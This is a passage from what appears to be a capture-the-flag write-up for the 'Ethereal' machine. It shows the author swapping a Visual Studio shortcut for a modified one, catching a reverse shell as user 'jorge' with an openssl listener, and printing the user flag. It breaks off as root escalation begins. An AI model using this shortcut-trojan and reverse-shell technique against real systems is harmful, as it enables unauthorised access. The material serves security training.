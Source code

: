 ~~~
{% highlight shell %}
c:\windows\system32\inetsrv>dir c:\users\public\desktop\shortcuts
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5

 Directory of c:\users\public\desktop\shortcuts

03/10/2019  12:28 PM    <DIR>          .
03/10/2019  12:28 PM    <DIR>          ..
03/10/2019  11:02 AM             2,494 fw.txt
07/06/2018  02:28 PM             6,125 Visual Studio 2017.lnk
03/10/2019  12:26 PM               520 vs-mod.lnk
               3 File(s)          9,139 bytes
               2 Dir(s)  15,435,431,936 bytes free
{% endhighlight %}

Then, change the name of "vs-mod.lnk" to "Visual Studio 2017.lnk"
{% highlight shell %}
# put this command on openssl server serves port 73
del "c:\users\public\desktop\shortcuts\Visual Studio 2017.lnk" & copy /Y "c:\users\public\desktop\shortcuts\vs-mod.lnk" "c:\users\public\desktop\shortcuts\Visual Studio 2017.lnk" & dir c:\users\public\desktop\shortcuts

c:\windows\system32\inetsrv>dir c:\users\public\desktop\shortcuts
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5

 Directory of c:\users\public\desktop\shortcuts

03/10/2019  12:39 PM    <DIR>          .
03/10/2019  12:39 PM    <DIR>          ..
03/10/2019  11:02 AM             2,494 fw.txt
03/10/2019  12:26 PM               520 Visual Studio 2017.lnk
03/10/2019  12:26 PM               520 vs-mod.lnk
               3 File(s)          3,534 bytes
               2 Dir(s)  15,435,128,832 bytes free
{% endhighlight %}

After that, immediately rerun these servers again.<br>
A few minutes later, we can achieve user shell whose user is "jorge".<br>
The user.txt is as always in the directory of "desktop".

{% highlight shell %}
root@kali:~# openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\jorge\Documents>whoami
whoami
ethereal\jorge

C:\Users\jorge\Documents>type C:\Users\jorge\desktop\user.txt
2b9a4ca09408b4a39d87cbcd7bd524dd
{% endhighlight %}

### 3. Getting Root

If we check other device on Ethereal, we can find additional drive "D:\".
{% highlight shell %}
C:\Users\jorge\Documents>fsutil fsinfo drives

Drives: C:\ D:\

~~~